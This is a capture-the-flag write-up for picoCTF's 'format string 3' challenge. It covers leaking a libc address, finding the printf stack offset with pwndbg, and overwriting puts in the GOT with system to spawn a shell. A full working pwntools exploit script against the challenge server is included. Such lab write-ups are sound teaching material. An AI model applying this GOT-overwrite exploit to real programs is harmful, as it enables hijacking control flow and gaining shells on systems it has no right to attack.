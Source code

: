 # format string 3
This challenge is similar to format string 2 but here we want to overwrite the puts function call to a system call so we end up calling `system("/bin/sh")` which will allow us to get a shell to `cat flag.txt`.

We are given 4 files. The source code, the binary, a linker, and a lib file.

EDIT: To actually run we need to make both the binary and the linker executable!! 

Starting with the source code we can see that firstly:
```
void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}
```

This part of the code calls setvbuf to put it on GOT, which the author nicely gives us the address of in:

```
void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}
```

The next thing that we should understand is that we as users have complete control over the input to `printf`, where the input is directly used as an argument:

```
fgets(buf, 1024, stdin);	
printf(buf);
```

This lets us do a format string exploit which we can then use in:

```
puts(normal_string); # normal_string = "/bin/sh"
```

If we can just overwrite `puts` in the GOT to `system` we will call `system("bin/sh")` which will give us a shell where we can then get the flag.

From this, the new thing compared to previous string exploit challenges is that we now have to is to change the address of `puts` to `system`. How is this done? By a GOT overwrite.

The first thing we have to do is to find the libc address on the remote server which we do by using the fact that we were given the same libc file and that we know where setvbuf is on the remote server.

This is achieved by (using pwntools):
```
bytes_setvbuf_address = p.recvline()

setvbuf_leak = int(bytes_setvbuf_address.split(b"x")[1].strip(), 16) # get the integer value of the address

print("bytes setvbuf address", hex(setvbuf_leak))

libc = ELF("./libc.so.6")

# find the libc base address on remote by calculating it with the same libc
libc.address = setvbuf_leak - libc.symbols["setvbuf"]
```

Once the libc address is set we can get can see all the address:
```
print("libc address:", hex(libc.address)) # 0x7e9340f13000
print("puts:", hex(e.got.puts))			  # 0x404018
print("system", hex(libc.symbols.system)) # 0x7e9340f62760
```

This means that we want to overwrite `0x404018` with `0x7e9340f62760`.

The last thing we have to do is find the offset from the `puts` function call and where our input ends up on the stack.
We do this by using pwndbg and debugging the binary.
I achieved this by:
1. `gdb ./vuln`
2. `b puts`
3. `r`
4. `input AAAAAAAA` into the program
5. Once we stop: `stack 50` and look of the line numbers (in hex) difference which for me happened to be `0x21` or 33 in decimal.
6. Now, in 64 bit systems there is an addition in printf where we will print a bunch of values before we start printing the stack. We learned this in format string 2. They are `rsi, rdx, rcx, r8, r9`. This means we have to add to 5 to our offset, leading to a real offset of 38 in decimal.

From that we can now construct the payload and send it to the server using pwntools:
```
OFFSET = int("0x21", 16) + 5
print("OFFSET:", OFFSET)

payload = fmtstr_payload(OFFSET, {e.got.puts : libc.symbols.system})
print(payload)

p.sendline(payload)

p.interactive()
```

Once we run this we get a shell where we can `cat flag.txt` to get the flag.

Full code:
```
from pwn import *

host = "rhea.picoctf.net"
port = 59266

context.binary = e = ELF("./vuln")


p = remote(host, port)


# find the libc position
info(p.recvline())
info(p.recvuntil("libc: "))

bytes_setvbuf_address = p.recvline()

setvbuf_leak = int(bytes_setvbuf_address.split(b"x")[1].strip(), 16)

libc = ELF("./libc.so.6")

# find the libc base address on remote by calculating it with the same libc
libc.address = setvbuf_leak - libc.symbols["setvbuf"]

print("libc address:", hex(libc.address))
print("puts:", hex(e.got.puts))
print("system", hex(libc.symbols.system))

# we find the offset manually by using pwndbg through the steps:
# 1. gdb ./vuln
# 2. b puts
# 3. r
# 4. input AAAAAAAA into the input
# 5. stack 50 and look at the value from 00 in hex to 21 in hex
OFFSET = int("0x21", 16) + 5
print("OFFSET:", OFFSET)


payload = fmtstr_payload(OFFSET, {e.got.puts : libc.symbols.system})
print(payload)

p.sendline(payload)

p.interactive()
```

This linked helped a lot: https://blog.nviso.eu/2024/05/23/format-string-exploitation-a-hands-on-exploration-for-linux/